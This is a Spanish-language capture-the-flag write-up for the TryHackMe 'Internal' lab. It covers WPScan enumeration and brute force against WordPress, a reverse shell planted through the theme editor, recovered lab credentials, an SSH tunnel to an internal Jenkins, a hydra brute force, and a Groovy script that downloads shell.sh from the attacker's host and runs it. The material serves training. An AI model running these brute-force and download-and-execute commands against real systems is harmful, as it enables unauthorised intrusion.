










TryHackMe
Hard
Linux
WordPress
WPScan
Jenkins
SSH Tunneling
Internal
WordPress con WPScan brute force; reverse shell via editor de temas; Jenkins interno via SSH tunnel para escalada root.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
wpscan
hydra
netcat
Scanning
root@kali:~$
nmap -sC -sV -p 22,80 -n -Pn 10.10.144.21 -oN targeted
WordPress - WPScan + Brute Force
root@kali:~$
wfuzz -c --hc 404,403 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://internal.thm/FUZZ
root@kali:~$
wpscan --url http://internal.thm/blog -e u
root@kali:~$
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
admin:my2boysReverse Shell via Theme Editor
Vamos a Appearance > Theme Editor > footer.php y agregamos reverse shell PHP.

Enumeracion y Credenciales

aubreanna:bubb13guM!@#123
Jenkins - Port Forwarding + Brute Force
root@kali:~$
sudo ssh -L 8080:localhost:8080 aubreanna@internal.thmroot@kali:~$
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 -s 8080 -V localhost http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
Ejecutamos script Groovy en Jenkins para reverse shell:
println "wget http://10.13.13.243/shell.sh -O /tmp/shell.sh".execute().text
println "bash /tmp/shell.sh".execute().text

Lecciones aprendidas
- WPScan puede identificar usuarios y realizar brute force contra WordPress simultaneamente.
- Los archivos en /opt frecuentemente contienen notas con credenciales internas.
- Jenkins interno puede exponerse via SSH port forwarding para atacar el panel de administracion.